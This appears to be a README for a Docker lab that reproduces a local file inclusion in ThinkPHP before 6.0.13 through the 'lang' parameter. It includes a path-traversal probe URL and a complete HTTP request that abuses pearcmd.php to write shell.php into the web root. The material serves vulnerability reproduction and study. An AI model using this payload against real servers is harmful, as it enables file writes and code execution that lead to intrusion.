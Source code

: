 # ThinkPHP Lang Local File Inclusion

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In the version prior to 6.0.13, a local restricted file inclusion issue exists in `lang` parameter if the developer enable multiple language pack.

Although this issue is only allowed to include ".php" file, the attacker is still able to use the "pearcmd.php" to write arbitrary file and execute code in the server.

References:

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> (about the "pearcmd.php trick")

## Vulnerability Environment

Execute following command to start a server that is developed by ThinkPHP v6.0.12:

```
docker compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the default welcome page of ThinkPHP.

## Exploit

Firstly, because the multiple language feature is not enabled by default, you can try to include the `public/index.php` to determine whether the vulnerability exists:

```
http://localhost:8080/?lang=../../../../../public/index
```

![](1.png)

The vulnerability exists if the server crashed and a 500 error response comes back.

Then, try to write data through "/usr/local/lib/php/pearcmd.php":

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

If the server response the output of pearcmd, which means the exploit is successful:

![](2.png)

As you can see, the `shell.php` is written in root directory of web:

![](3.png)
